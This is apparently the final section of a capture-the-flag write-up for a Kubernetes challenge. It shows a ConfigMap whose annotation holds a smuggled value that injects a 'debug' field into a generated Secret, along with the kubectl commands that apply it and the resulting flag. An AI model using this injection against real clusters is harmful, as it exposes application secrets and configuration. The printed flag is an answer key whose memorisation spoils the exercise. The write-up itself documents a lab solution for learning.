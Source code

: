 The newly created ConfigMap is named `request-2800d702e2cf210a884987bde33e9bfd`. This now allows to utilize the YAML payload along with the two commands shown below to delete the ConfigMap originally created by the application and then re-create it with the `debug` field injected into the `project_quota` field. Note that even though the ConfigMap will be deleted through `kubectl`, the application still keeps the ID saved in the session and will show the details again once the map is re-created.

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: "request-2800d702e2cf210a884987bde33e9bfd"
  namespace: "sam-queue"
  annotations:
    sam-operator/project_name: "hello-there"
    sam-operator/project_quota: "1GB\"\n  debug: \"true"
```

```
$ kubectl --kubeconfig kubecreds-jacob.config delete -f payload.yaml
$ kubectl --kubeconfig kubecreds-jacob.config create -f payload.yaml
```

The part of the `UPDATE_TEMPLATE` used for the Secret creation will look as follows once the application processes the malicious ConfigMap.

```yaml
apiVersion: v1
kind: Secret
metadata:
  name: "request-2800d702e2cf210a884987bde33e9bfd"
  namespace: "sam-queue"
stringData:
  storage: "..."
  access_token: "..."
  quota: "1GB"
  debug: "true"
```

Once the hook runs and the app creates the Secret with the injected `debug` field, the condition to reveal the app's session and config is fulfilled. The printed app config contains the flag.

![](img/20241112231742.png)

### Flag

`FLAG{nP0c-X9Gh-bee7-iWxw}`